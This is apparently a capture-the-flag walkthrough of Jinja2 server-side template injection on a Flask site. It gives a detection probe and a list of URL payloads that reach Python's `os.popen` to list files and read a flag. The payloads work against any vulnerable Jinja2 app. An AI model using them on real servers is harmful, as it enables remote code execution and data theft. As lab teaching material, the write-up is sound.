

# **Requirement**

- Flask / Jinja2 Website

#### **Goal**

First of all, in a **Jinja injection** you need to **find a way to escape from the sandbox and recover access the regular python execution flow**. To do so, you need to **abuse objects** that are from the non-sandboxed environment but are accessible from the sandbox.

Then, from these objects we need to get to the class: \`\` in order to try to recover defined classes. This is because from this object we can call the `__subclasses__` method and access all the classes from the non-sandboxed python env.

In order to access that object class, you need to access a class object and then access either `__base__, __mro__()[-1]` or `.mro()[-1]`. And then, after reaching this object class we call `__subclasses__()`.

Having recovered \`\` and called `__subclasses__` we can now use those classes to **read and write files and exec code**.

The call to `__subclasses__` has given us the opportunity to access hundreds of new functions, we will be happy just by accessing the file class to **read/write files** or any class with access to a class that allows to execute commands (like os).

### **PoC - Proof of Concept**

1. Enter to the url `hxxp[://]159[.]65[.]48[.]156:30989/` following `{{ 7*7 }}`.

```
<code class="language-bash">hxxp[://]159[.]65[.]48[.]156:30989/{{ 7*7 }}
```

2. If the site shows you `49` this is an indicator that **SSTI - Server Side Injection Template** is available.

---

### **Here is the Fun Part**

3. Check if one of the variables can be dumped.

```
<code class="language-bash">dict
config
request
```

#### **URL Payloads**

```
<code class="language-bash">hxxp[://]159[.]65[.]48[.]156:30989/{{ dict }}
hxxp[://]159[.]65[.]48[.]156:30989/{{ config }}
hxxp[://]159[.]65[.]48[.]156:30989/{{ request }}
```

4. If `config` is available this can be abused to **RCE**!
5. Let's exploit!
6. Enter this payload:

```
hxxp[://]159[.]65[.]48[.]156:30989/{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### **Expected Result**

You should get something like this.





**Output from the server /**


#### **URL Payloads**

```
hxxp[://]159[.]65[.]48[.]156:30989/{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```

7. From here you can now edit your commands, like mine shown above to **cat flag.txt**

#### **More Payloads**

```
hxxp[://]159[.]65[.]48[.]156:30989/{{().__class__.__base__.__subclasses__()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
```

### **Tip-of-the-Day**

Use a Browser Add-In called **HackBar**


[Google Chrome Add-In](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc)


[Mozilla Firefox Add-In](https://addons.mozilla.org/de/firefox/addon/hackbartool/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)


---


> 
>
> > 
> >
> > **Why don't Python programmers like snakes?**  
> > _Because they have issues with Remote Code Execution!_
> >
> > 
>
> 
>
> 
>
> > 
> >
> > **Why did the Flask app feel insecure about its Jinja2 templates?**  
> > _Because it heard they're prone to "Execution" without a proper "context"!_
> >
> > 
>
> 
>
> 
>
> > **Remember, folks, code responsibly and always sanitize your inputs!**
>
> 
>
> trustinveritas


